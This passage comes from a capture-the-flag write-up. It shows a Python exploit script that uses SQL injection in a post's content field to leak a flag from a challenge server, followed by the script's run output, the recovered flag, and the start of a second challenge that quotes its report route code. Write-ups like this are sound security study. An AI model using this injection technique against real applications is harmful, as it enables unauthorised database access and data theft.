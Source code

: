 ```python
import requests
import uuid
import re

url = "http://1.230.253.91:1000"
username = uuid.uuid4()

print("[+] Exploit")
print(f"[+] Username  : {username}")
sess = requests.Session()
# Login/Register
account = {"username":username, "password":"pocas"}
res = sess.post(url + '/login', data=account)

# Leak the flag
poc = {"title":"?", "content":",(select flag from flag),?)--"}
res = sess.post(url + '/new', data=poc)

# Parse the flag path
flag_path = re.search('\/view\/[0-9a-z]*', sess.get(url).text).group()
print(f"[+] Flag Path : {flag_path}")

# Read the flag
flag = re.search('hsctf\{[0-9a-z]*\}', sess.get(url + flag_path).text).group()
print(f"[+] Real FLAG : {flag}")
```
Finally I wrote the exploit code as above

```sh
 ⚡ root@pocas  ~  python3 poc.py
[+] Exploit
[+] Username  : 116588a5-5cb1-46e8-917e-5f7ea12408bf
[+] Flag Path : /view/7fc3144da56dd8c9dbdfded1b3f35c44
[+] Real FLAG : hsctf{038d083216a920c589917b898ff41fd9611956b711035b30766ffaf2ae7f75f2}
 ⚡ root@pocas  ~ 
```


```
FLAG : hsctf{038d083216a920c589917b898ff41fd9611956b711035b30766ffaf2ae7f75f2}
```

---
# (Web) Cyber Headchef [390 pts]

The Cyber Headchef challenge is Cyberchef's v2 and this is a 0-Day Challenge. (This is an unintended solution)

```javascript
app.post('/report', (req, res) => {
  const url = req.body.url;

  if (!checkUrl(url)) {
    res.redirect('/?message=invalid argument');
  } else if (unescape(url).indexOf('chart') !== -1) {
    res.redirect('/?message=sorry, headchef doesn\'t like chart!');
  } else if (!checkRateLimit(req.ip)) {
    res.redirect(`/?message=rate limited`);
  } else {
    visitUrl(url)
      .then(() => res.redirect('/?message=reported'));
  }
});
```